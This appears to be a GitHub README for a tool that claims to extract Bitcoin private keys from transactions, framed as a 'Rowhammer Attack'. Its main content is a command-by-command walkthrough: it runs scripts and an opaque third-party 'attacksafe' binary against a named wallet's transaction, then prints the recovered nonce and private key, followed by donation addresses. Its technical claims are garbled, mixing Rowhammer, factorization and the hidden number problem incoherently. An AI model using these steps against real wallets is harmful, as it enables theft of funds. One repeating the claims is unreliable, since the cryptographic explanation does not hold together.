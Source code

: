 # Rowhammer Attack

---

The biggest cryptographic strength of the Bitcoin cryptocurrency is a computational method in discrete mathematics that takes the factorization problem of large integers and the hidden number problem (HNP) in the Bitcoin ECDSA signature transaction as a basis.
Rowhammer Attack on Bitcoin, allows us to efficiently find all zeros for normalized polynomials modulo a certain value, and we adapt this method to the ECDSA signature algorithm, more precisely to critically vulnerable transactions in the Bitcoin blockchain.
We will apply ECDSA signature differential failure analysis and obtain a private key from a transaction for different Bitcoin Wallets.



---

* Tutorial: https://youtu.be/lfYPcXPzLjE
* Tutorial: https://cryptodeeptech.ru/rowhammer-attack

---

# Commands:





    git clone https://github.com/demining/CryptoDeepTools.git


    cd CryptoDeepTools/15RowhammerAttack/

    ls

    wget https://bootstrap.pypa.io/pip/2.7/get-pip.py

    sudo python2 get-pip.py

    pip2 install -r requirements.txt


---


## With a critical vulnerability, we can get the private key to the Bitcoin Wallet:


https://btc1.trezor.io/address/1HhZSwcEj5ncVoPT9bAupvcEjwToY1rJ1o

https://btc1.trezor.io/tx/3c79fae7e31a32e12d55f2e0c91d88e11d6f16faa35f1ec85bd7d768a1c18846


---



    RawTX = 0100000001cb9a792b88760ad20c67047c06d016ba4a069d036c4fbc5c09a8055fe786580f300000006a4730440220331353fedfd6e4d6805fc1f06443ade552a43a43237fb6c3de3c7f0969b4cc6702200bfec7e7d2ae249b3d69cd8d666b5ee833394af3b0703fa023579200d9ab2ff401210335a395eca8191c43ccee4d91e98b9baef39476d7482cf636e5b71975c69feebdffffffff013a020000000000001976a914e94a23147d57674a7b817197be14877853590e6e88ac00000000


    python2 breakECDSA.py 0100000001cb9a792b88760ad20c67047c06d016ba4a069d036c4fbc5c09a8055fe786580f300000006a4730440220331353fedfd6e4d6805fc1f06443ade552a43a43237fb6c3de3c7f0969b4cc6702200bfec7e7d2ae249b3d69cd8d666b5ee833394af3b0703fa023579200d9ab2ff401210335a395eca8191c43ccee4d91e98b9baef39476d7482cf636e5b71975c69feebdffffffff013a020000000000001976a914e94a23147d57674a7b817197be14877853590e6e88ac00000000


---


R = 0x331353fedfd6e4d6805fc1f06443ade552a43a43237fb6c3de3c7f0969b4cc67

S = 0x0bfec7e7d2ae249b3d69cd8d666b5ee833394af3b0703fa023579200d9ab2ff4

Z = 0x9d86bea51385f6a56835d0148e7f23a353605bab339127e800112307e6727d2d


---

# To implement the attack and get the secret key, we will use the software: “ATTACKSAFE SOFTWARE” [ https://attacksafe.ru/software ]


---

    chmod +x attacksafe


---

    ./attacksafe -tool rowhammer_attack -open RawTX.txt -save SecretKey.txt


---



## We launched this attack from -tool rowhammer_attack and the result is saved to the file SecretKey.txt


    cat SecretKey.txt


    Deployments ECDSA:

    SecretKey = 0x6251240a6cb656310dbd7f0da53a315ab88ec253352a5d5481ee08e977b6ef2d


    RawTX = 0100000001cb9a792b88760ad20c67047c06d016ba4a069d036c4fbc5c09a8055fe786580f300000006a4730440220331353fedfd6e4d6805fc1f06443ade552a43a43237fb6c3de3c7f0969b4cc6702200bfec7e7d2ae249b3d69cd8d666b5ee833394af3b0703fa023579200d9ab2ff401210335a395eca8191c43ccee4d91e98b9baef39476d7482cf636e5b71975c69feebdffffffff013a020000000000001976a914e94a23147d57674a7b817197be14877853590e6e88ac00000000


---


## We see the inscription "Deployments ECDSA" which means a critical vulnerability in the Bitcoin blockchain transaction

SecretKey value in HEX format, this is our secret key "K" (NONCE):

K=0x6251240a6cb656310dbd7f0da53a315ab88ec253352a5d5481ee08e977b6ef2d


---


    pip3 install ECPy


    python3 point2gen.py 0x6251240a6cb656310dbd7f0da53a315ab88ec253352a5d5481ee08e977b6ef2d



    R          =    0x331353fedfd6e4d6805fc1f06443ade552a43a43237fb6c3de3c7f0969b4cc67
    point2gen  =   (0x331353fedfd6e4d6805fc1f06443ade552a43a43237fb6c3de3c7f0969b4cc67 , 0xc6efa8de714dd94d7b659d8935aa9036ada6a2b541a03360901fc195fd0e2cf6)


---


# ALL CORRECT!


K=0x6251240a6cb656310dbd7f0da53a315ab88ec253352a5d5481ee08e977b6ef2d

## Now knowing the secret key, we can get the private key to the Bitcoin Wallet: 1HhZSwcEj5ncVoPT9bAupvcEjwToY1rJ1o


The script: calculate.py will calculate the private key using the formula:
Privkey = ((((S * K) - Z) * modinv(R,N)) % N)


---


    python3 calculate.py


---


## PrivKey = aa35fda8f16d06ae02bdcf671e03035795a0b0ecbdae45098928f6587016a932



---


---

* Tutorial: https://youtu.be/lfYPcXPzLjE
* Tutorial: https://cryptodeeptech.ru/rowhammer-attack

---


|  | Donation Address |
| --- | --- |
| ♥ __BTC__ | 1Lw2kh9WzCActXSGHxyypGLkqQZfxDpw8v |
| ♥ __ETH__ | 0xaBd66CF90898517573f19184b3297d651f7b90bf |
